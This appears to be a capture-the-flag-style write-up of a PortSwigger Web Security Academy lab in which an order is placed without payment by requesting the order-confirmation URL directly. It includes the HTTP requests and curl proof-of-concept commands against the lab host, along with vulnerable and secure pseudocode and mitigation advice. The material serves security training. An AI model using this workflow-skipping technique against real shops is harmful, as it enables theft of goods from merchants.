


# Lab 08: Insufficient Workflow Validation

> **Topic**: Business Logic Vulnerabilities
> **Lab Number**: 08
> **Platform**: PortSwigger Web Security Academy

## Category
Business Logic — Order Confirmation Without Payment Verification (Workflow Step Skipping)

## Vulnerability Summary
The application's purchase workflow consists of: add to cart → checkout → payment → order confirmation. The order confirmation endpoint (`GET /cart/order-confirmation?order-confirmed=true`) finalises and ships the order when visited. The server does not verify that the preceding payment step was completed — it trusts the `order-confirmed=true` parameter alone. By navigating directly to the confirmation URL with the target item in the cart, an attacker can place an order for any item without paying.

## Attack Methodology

### Step 1: Map the Normal Purchase Workflow
Intercepted a normal purchase of a cheap item in Burp Proxy. The HTTP history revealed the full workflow:

| Step | Request |
|---|---|
| 1 | `GET /product?productId=2` — view product |
| 2 | `POST /cart` — add item to cart |
| 3 | `GET /cart` — view cart |
| 4 | `POST /cart/checkout` — initiate payment |
| 5 | `GET /cart/order-confirmation?order-confirmed=true` — confirm order |

The confirmation step (5) is a simple GET with a boolean parameter — no payment token, no CSRF, no server-side state linking it to a completed payment.

### Step 2: Add the Jacket to Cart
Added the Lightweight "l33t" Leather Jacket ($1337.00) to the cart normally:

```http
POST /cart HTTP/2
Content-Type: application/x-www-form-urlencoded

productId=1&quantity=1&redir=PRODUCT
```

### Step 3: Skip Payment — Hit Confirmation Directly
Instead of proceeding to `POST /cart/checkout`, navigated directly to the confirmation endpoint:

```http
GET /cart/order-confirmation?order-confirmed=true HTTP/2
Host: 0a77007d034cfd8e80d7d57500420055.web-security-academy.net
Cookie: session=kjSyrGpO7XCegMOqIpXHLfjH15hHBRFh
```

Response: **HTTP/2 200 OK** — order confirmed, lab solved.

The jacket was placed in the order without any payment being processed. Store credit remained at $91.88 (only deducted for a previously purchased cheap item, not the jacket).





## Technical Root Cause

### Vulnerable Implementation (Pseudocode)
```python
def order_confirmation(request):
    if request.GET.get('order-confirmed') == 'true':
        order = get_cart(request.session)
        place_order(order)          # no payment state check
        clear_cart(request.session)
        return render('order_confirmed.html', order)
    return redirect('/cart')
```

The confirmation handler trusts a client-supplied boolean. There is no server-side state machine tracking whether payment was completed for this session before allowing confirmation.

### Secure Implementation (Pseudocode)
```python
def order_confirmation(request):
    payment = get_payment_state(request.session)

    # Verify payment was completed server-side before confirming
    if not payment or payment.status != 'COMPLETED':
        return redirect('/cart/checkout')

    order = place_order(payment.cart)
    invalidate_payment_state(request.session)  # prevent replay
    return render('order_confirmed.html', order)
```

### Workflow State Machine

```
Correct flow (enforced server-side):
  add_to_cart → checkout → [payment gateway] → payment_callback → confirm

Vulnerable flow (client can jump directly):
  add_to_cart ─────────────────────────────────────────────────→ confirm ✅
                                                    (no payment required)
```

## Impact
- **Free Acquisition of Any Item**: Any product can be ordered without payment by skipping the checkout step
- **No Rate Limiting or Anomaly Detection**: The confirmation endpoint accepts any session with a non-empty cart
- **Store Credit Unaffected**: The attack does not deduct store credit, making it repeatable indefinitely

**Severity: Critical**

## Proof of Concept

```bash
# 1. Add jacket to cart
curl -s -b cookies.txt "https://<lab>/cart" \
  -d "productId=1&quantity=1&redir=PRODUCT"

# 2. Skip checkout — hit confirmation directly
curl -s -b cookies.txt \
  "https://<lab>/cart/order-confirmation?order-confirmed=true"
# Response: 200 OK, order placed
```

## Key Takeaways
1. **Workflow Steps Must Be Enforced Server-Side**: The server must track which steps have been completed for a given session/order. Client navigation to a later step must be rejected if earlier steps are incomplete.
2. **Boolean Parameters Are Not Security Controls**: `order-confirmed=true` is attacker-controlled. Security decisions must be based on server-side state, not client-supplied flags.
3. **Payment Completion Must Be Verified Before Fulfilment**: The confirmation step must verify a payment record exists and is in a completed state, linked to the current session and cart contents.
4. **One-Time Tokens for Order Confirmation**: The payment gateway callback should produce a single-use server-side token that the confirmation endpoint consumes and invalidates, preventing both skipping and replaying.

## Mitigation

### 1. Server-Side Workflow State
```python
# On successful payment callback from gateway:
session['payment_token'] = generate_secure_token()
session['payment_status'] = 'COMPLETED'
session['paid_cart_hash'] = hash(cart)

# On confirmation:
def order_confirmation(request):
    if session.get('payment_status') != 'COMPLETED':
        return redirect('/cart/checkout')
    if session.get('paid_cart_hash') != hash(get_cart(session)):
        return error("Cart modified after payment")
    token = session.pop('payment_token')  # consume — prevents replay
    place_order(...)
```

### 2. Validate Payment at the Gateway Level
Integrate with the payment provider's server-to-server webhook to confirm payment before fulfilling any order, independent of client-side flow.

## References
- [PortSwigger — Insufficient Workflow Validation](https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-insufficient-workflow-validation)
- [PortSwigger — Business Logic Vulnerabilities](https://portswigger.net/web-security/logic-flaws)
- [CWE-841: Improper Enforcement of Behavioral Workflow](https://cwe.mitre.org/data/definitions/841.html)
- [OWASP — Business Logic Security Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Business_Logic_Security_Cheat_Sheet.html)

## Tools Used
- Burp Suite Professional (Proxy, Repeater, HTTP history)
- Chromium

---

*Lab completed on: 2026-05-04*  
*Writeup by vibhxr*
